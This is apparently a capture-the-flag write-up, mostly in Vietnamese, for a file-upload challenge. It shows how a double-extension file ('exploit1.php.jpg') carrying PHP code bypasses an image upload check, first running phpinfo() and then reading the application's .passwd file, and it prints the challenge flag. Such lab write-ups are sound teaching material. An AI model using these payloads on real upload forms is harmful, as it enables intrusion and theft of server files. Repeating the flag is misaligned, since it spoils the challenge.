




# File upload - Double extensions

**20 Points - Easy**

**Title:**

Gallery v0.02

**Statement**

Your goal is to hack this photo galery by uploading PHP code.<br>
Retrieve the validation password in the file .passwd at the root of the application.

## Analysis:

Ta có một website trữ kho tàng ảnh icon và chức năng upload ảnh. Thử upload một file ảnh `3wolf_hahaha.jpg`

<p align="center"></p>

Truy cập vào đường link ảnh được lưu trữ `./galerie/upload/ebc6ce2122ab1c1727ea0da382f95f2a/3wolf_hahaha.jpg`

Ctr + U -> Không thể xem được *source code* -> Trang này chứa nội dung file ảnh. Kiểm tra bằng cách thêm `view-source:` vào trước URL hiện tại:



Vậy là file ảnh mình vừa upload được load lên toàn bộ nội dung tại URL này. Nếu server kiểm tra định dạng không kỹ, ta có thể upload file code PHP do ta tùy biến và được render lên, còn đuôi mở rộng (extension) có thể bypass (chỉ hình thức ngoài) bằng cách thêm đuôi `.jpg` vào.

> NOTE: Bài này mình có test bằng cách đổi đuôi nhưng mà không thành công, có thể nguyên nhân là do bên server chỉ cho render file với các định dạng được định nghĩa trước (.gif, .jpeg and .png) lên trang web. Ta buộc phải dùng **Double extensions**.

## Solution:

Tạo file `exploit1.php.jpg` với nội dung:

```php
<?php
phpinfo();
?>
```

Upload file lên và vào đường dẫn chứa file:



Vậy là đoạn code của ta được parse thành công. Thử payload khác. Đề cho mục tiêu cũng dễ nữa, file `.passwd` chúng ta cần đọc ở **thư mục root của ứng dụng** là  `/challenge/web-serveur/ch20/` , chỉnh file `exploit1.php.jpg` thành:

```php
<?php
echo file_get_contents("/challenge/web-serveur/ch20/.passwd");
?>
```

<p align="center"></p>

Flag: **Gg9LRz-hWSxqqUKd77-_q-6G8**